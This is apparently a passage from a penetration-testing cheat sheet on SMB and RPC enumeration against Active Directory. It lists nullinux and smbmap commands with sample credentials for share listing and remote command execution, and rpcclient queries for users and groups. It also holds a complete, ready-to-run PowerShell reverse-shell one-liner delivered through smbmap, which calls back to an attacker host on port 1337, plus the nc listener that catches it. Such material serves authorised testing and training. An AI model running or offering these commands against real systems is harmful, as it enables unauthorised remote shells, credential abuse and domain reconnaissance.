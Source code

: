 ```bash
#Installation
git clone https://github.com/m8r0wn/nullinux
cd nullinux
sudo bash setup.sh
# Usage
python3 nullinux.py -users -quick secybr.local
python3 nullinux.py 192.168.x.x/24
python3 nullinux.py -u 'secybr.local\0xhav0c' -p 'Password123!' 10.10.x.x

# Other Enumeration Commands
smbmap -u 0xhav0c -p Password123! -d secybr.local -H 192.168.x.x # Smbmap for domains (List share drives, drive permissions, share contents, upload/download functionality..) | Basic enumeration (password or NTLM hash)
smbmap -u '0xhav0c' -p 'Password123!' -d secybr.com -H 10.10.x.x -x 'net group "Domain Admins" /domain' # Remote command execution
smbmap -H 10.10.x.x -u 0xhav0c -p 'Password123!' -r 'C$\Users' # Non-recursive path listing
smbmap --host-file AD-HOSTS.txt -u 0xhav0c -p 'Password123!' -d secybr.com -F 'password'# File content searching !!! It's not working stabil. 
smbmap -H 192.168.x.x -u 0xhav0c -p 'Password123!' -d secybr.com -L # Drive listing

####################
# Nifty Shell
####################
python smbmap.py -u 0xhav0c -p 'Password123!' -d secybr.local -H 192.168.x.x -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.y.y""""; $port=""""1337"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"' 

nc -l 4445 # Listener for atacker Machine
```

### Enumerating LSARPC and SAMR with rpcclient

You can use the Samba `rpcclient` utility to interact with RPC endpoints via named pipes. The following lists commands that you can issue to SAMR, LSARPC, and LSARPC-DS interfaces upon establishing a SMB session (often requiring credentials).

```bash
#Users enumeration
List users: querydispinfo and enumdomusers
Get user details: queryuser <0xrid>
Get user groups: queryusergroups <0xrid>
GET SID of a user: lookupnames <username>
Get users aliases: queryuseraliases [builtin|domain] <sid>
#Groups enumeration
List groups: enumdomgroups
Get group details: querygroup <0xrid>
Get group members: querygroupmem <0xrid>
#Aliasgroups enumeration
List alias: enumalsgroups <builtin|domain>
Get members: queryaliasmem builtin|domain <0xrid>
#Domains enumeration
List domains: enumdomains
```